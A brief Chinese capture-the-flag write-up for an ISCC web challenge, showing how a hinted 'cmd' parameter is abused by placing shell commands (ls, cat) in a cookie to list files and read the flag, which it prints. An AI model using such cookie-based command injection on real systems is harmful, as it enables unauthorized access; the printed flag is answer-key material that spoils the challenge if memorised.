 ##非常道
##350

##我们经常把WEB服务搭建在linux服务器上，可是王老师告诉我们要逆其道而行之。

[点击我](http://script.iscc.org.cn/script04/ed9b.php)

正常访问返回：
>Let's capture flag in this level.

响应头里看到一个
>hint   cmd

直接在url后面跟了一个?cmd=ls<br>
返回：
>Do you wanna something else?<br>

然后post一个cmd过去，也是一样的返回，再然后，就改cookie：
>cmd=ls

返回：
>98ed9baeb613a0f5 ed9b.php index.php 

然后，改成
>cat 98ed9baeb613a0f5

返回：
>flag:{559baa94ce76a540e62f86a77bbe4f6c} 